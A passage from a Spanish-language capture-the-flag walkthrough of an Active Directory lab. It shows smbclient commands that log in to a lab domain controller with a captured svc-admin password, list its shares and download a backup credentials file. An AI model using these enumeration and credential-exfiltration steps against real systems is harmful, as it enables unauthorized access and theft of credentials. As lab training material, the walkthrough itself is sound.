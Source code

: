 
## Paso 10 — Acceso a **SMB** con las credenciales (listar y entrar a shares)

<img width="812" height="338" alt="conectamos a la consola del usuario" src="https://github.com/user-attachments/assets/df175f49-407f-4ecf-9d2d-e6b4c71a5670" />


**Intento 1 (fallido)**
```bash
smbclient -L \\\\10.10.19.151\\ -U spookysec.local\\svc-admin
# NT_STATUS_LOGON_FAILURE
```

Falló por el formato de dominio/realm. En este DC, el logon funciona usando solo el usuario (o especificando -W/-U DOMAIN\user correctamente).

Intento 2 (ok) — Listado de compartidos

```bash
smbclient -L \\\\10.10.19.151\\ -U svc-admin
# ShareName: ADMIN$, backup, C$, IPC$, NETLOGON, SYSVOL
Conexión a un share interesante (ej. backup)
```

```bash
smbclient \\\\10.10.19.151\\backup -U svc-admin
# Password: management2005
# Dentro de la consola de smbclient:
smb: \> ls
```

Objetivo de este paso

Enumerar y exfiltrar ficheros de backup/NETLOGON/SYSVOL que puedan contener credenciales, scripts de logon, Groups.xml, contraseñas en texto/obfus, .bat/.ps1/.vbs, o backups con datos sensibles.


## Paso 11 — Acceso al share **backup** y exfiltración de `backup_credentials.txt`

<img width="768" height="219" alt="entramos al directorio backup" src="https://github.com/user-attachments/assets/ad28e0c2-d990-4f09-ba2c-396056619101" />


**Entramos al compartido `backup` con las credenciales de `svc-admin`:**
```bash
smbclient \\\\10.10.19.151\\backup -U svc-admin
# Password: management2005
```

### Dentro de la consola de smbclient:
smb: \> ls
... aparece:  backup_credentials.txt

smb: \> get backup_credentials.txt
smb: \> exit

Vemos el contenido descargado (parece Base64):
